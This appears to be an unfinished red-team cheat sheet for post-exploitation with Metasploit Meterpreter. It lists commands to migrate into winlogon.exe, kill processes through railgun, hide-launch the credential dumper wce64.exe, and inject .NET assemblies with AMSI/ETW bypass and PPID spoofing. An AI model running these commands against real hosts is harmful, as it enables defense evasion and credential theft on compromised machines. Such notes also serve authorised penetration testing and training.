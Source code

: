 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - process-injection
  - metasploit-framework
  - windows
---
```

# Metasploit

## 01 - Migrate Process

### 1.1 - Help Menu

![[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/03 - Process Manipulation/Linux/C2 Frameworks/Metasploit#^5d49fa]]

### 1.2 - Usage

```
meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>

meterpreter > migrate -N winlogon.exe
[*] Migrating from 4980 to 412...
[*] Migration completed successfully.
```

TODO: Fill this info

```
msf > use post/windows/manage/migrate
```

```
msf > use post/windows/manage/priv_migrate
```

```
msf > use post/windows/manage/archmigrate
```

## 02 - Terminate Process

### 2.1 - Process ID

Terminate process ID.

![[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/03 - Process Manipulation/Linux/C2 Frameworks/Metasploit#^ce813b]]

We'll create a new handle by retrieving the process ID. Then define a process handle `_['return']` after the conditions has been met. Terminate by calling the railgun function with zero exit code as an indication the process has been killed.

```
meterpreter > irb

>> client.railgun.kernel32.OpenProcess("PROCESS_TERMINATE", false, <pid>)

>> process_handle = _['return'] -> define a process handle

>> client.railgun.kernel32.TerminateProcess(process_handle, 0)
```

### 2.2 - Process Name

![[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/03 - Process Manipulation/Linux/C2 Frameworks/Metasploit#^365cba]]

## 03 - Inject Process

### 3.1 - Execute Process

Spawn a executable program as a dummy process with `-d` flag.

```
meterpreter > execute -Hicmd svchost.exe -f /usr/share/windows-resources/wce/wce64.exe -a "-h"
```

### 3.2 - DotNET CLR Assembly

```
msf > use post/windows/manage/execute_dotnet_assembly

msf post(windows/manage/execute_dotnet_assembly) > options

Module options (post/windows/manage/execute_dotnet_assembly):

  Name            Current Setting  Required  Description
  ----            ---------------  --------  -----------
  AMSIBYPASS      true             yes       Enable Amsi bypass
  ARGUMENTS                        no        Command line arguments
  DOTNET_EXE                       yes       Assembly file name
  ETWBYPASS       true             yes       Enable Etw bypass
  PID             0                no        Pid  to inject
  PPID            0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
  PROCESS         notepad.exe      no        Process to spawn
  SESSION                          yes       The session to run this module on
  Signature       Automatic        yes       The Main function signature (Accepted: Automatic, Main(), Main(string[]))
  USETHREADTOKEN  true             no        Spawn process with thread impersonation
  WAIT            10               no        Time in seconds to wait


View the full module info with the info, or info -d command.

msf post(windows/manage/execute_dotnet_assembly) > set dotnet_exe /path/to/compiled_dotnet_tool.exe

msf post(windows/manage/execute_dotnet_assembly) > set arguments [arguments]

msf post(windows/manage/execute_dotnet_assembly) > set signature <Automatic | Main() | Main(string[])>

msf post(windows/manage/execute_dotnet_assembly) > set amsibypass <true | false>

msf post(windows/manage/execute_dotnet_assembly) > set etwbypass <true | false>

msf post(windows/manage/execute_dotnet_assembly) > set process [process_name.exe]

msf post(windows/manage/execute_dotnet_assembly) > set pid [process_ID]

msf post(windows/manage/execute_dotnet_assembly) > set ppid [<parent_process_ID>]

msf post(windows/manage/execute_dotnet_assembly) > set usethreadtoken [true | false]

msf post(windows/manage/execute_dotnet_assembly) > set wait [seconds]

msf post(windows/manage/execute_dotnet_assembly) > set session <session_ID>

msf post(windows/manage/execute_dotnet_assembly) > run
```

`meterpeter` one-liner execution.

```
meterpreter > run post/windows/manage/execute_dotnet_assembly dotnet_exe=/path/to/compiled_dotnet_tool.exe [arguments="<arguments>"] signature=<Automatic | Main() | Main(string[])> set amsibypass=<true | false> etwbypass=<true | false> [process=<process_name>.exe] [pid=<process_ID>] [ppid=<parent_process_ID>] [usethreadtoken=<true | false>] [wait=<seconds>]
```

---
## References

- [Pentestlab Blog: Parent PID Spoofing](https://pentestlab.blog/2020/02/24/parent-pid-spoofing/)